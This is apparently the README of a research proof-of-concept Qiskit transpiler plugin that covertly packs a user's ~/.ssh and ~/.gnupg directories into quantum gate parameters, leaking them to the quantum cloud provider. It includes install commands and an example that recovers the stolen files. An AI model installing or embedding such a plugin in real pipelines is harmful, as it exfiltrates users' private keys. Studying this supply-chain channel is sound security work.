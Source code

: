 # qiskit-leaky-init

A transpilation init plugin that can be used with Qiskit to leak private information from the computer running the
transpilation step to the cloud receiving the jobs for the quantum computers.

Current implementation creates a bzip2 compressed tarball with ~/.ssh and ~/.gnupg victim's directories.
This tarball is then encoded into large integers, which are saved as parameters of
[`RZGate`](https://docs.quantum.ibm.com/api/qiskit/qiskit.circuit.library.RZGate)s. These gates are added to
an auxiliary [`QuantumRegister`](https://docs.quantum.ibm.com/api/qiskit/circuit#qiskit.circuit.QuantumRegister) in the
first [stage](https://docs.quantum.ibm.com/api/qiskit/transpiler_plugins#plugin-stages) (init) of the
[transpilation](https://docs.quantum.ibm.com/guides/transpile) surrounded by
[`reset`](https://docs.quantum.ibm.com/api/qiskit/circuit#qiskit.circuit.Reset) instructions. This guarantees that later
stages in the transpilation (e.g. routing, optimization, etc.) do not modify this quantum register in any way, allowing
the extraction of the leaked data.

The plugin [is implemented](src/qiskit_leaky_init/leaky_init_plugin.py#L102) as a subclass of
[`PassManagerStagePlugin`](https://docs.quantum.ibm.com/api/qiskit/qiskit.transpiler.preset_passmanagers.plugin.PassManagerStagePlugin),
which appends to the default init pass `DefaultInitPassManager` a new
[`TransformationPass`](https://docs.quantum.ibm.com/api/qiskit/qiskit.transpiler.TransformationPass), called
[`LeakyQubit`](src/qiskit_leaky_init/leaky_init_plugin.py#L69).

Leaked data can be recovered with `recover_data()` or `extract_data()` implemented in the
[decoder module](src/qiskit_leaky_init/decoder.py). See [the example](#Example) below.

## Instalation

```shell
git clone git@github.com:cryptohslu/qiskit-leaky-init.git
cd qiskit-leaky-init
pip install .
```

## Example

```python
import hashlib
import io
import tarfile
from pathlib import Path

from qiskit.circuit import QuantumCircuit
from qiskit.transpiler.preset_passmanagers import generate_preset_pass_manager
from qiskit.transpiler.preset_passmanagers.plugin import list_stage_plugins
from qiskit_ibm_runtime import QiskitRuntimeService
from qiskit_ibm_runtime.fake_provider import FakeBrisbane

from qiskit_leaky_init import extract_data, recover_data

# Check that init plugin was installed correctly
assert "leaky_init" in list_stage_plugins("init")

backend = FakeBrisbane()
pm = generate_preset_pass_manager(
    optimization_level=3, backend=backend, init_method="leaky_init"
)

# 3-qubit GHZ circuit
qc = QuantumCircuit(3)
qc.h(0)
qc.cx(0, range(1, 3))

# Transpiled circuit with leaked data
isa_qc = pm.run(qc)
leaked_data = recover_data(isa_qc)

# List leaked files
with io.BytesIO(leaked_data) as file:
    with tarfile.open(fileobj=file, mode="r:bz2") as tarball:
        tarball.list()

# Extract all files to temporary directory
# extract_data(data)
```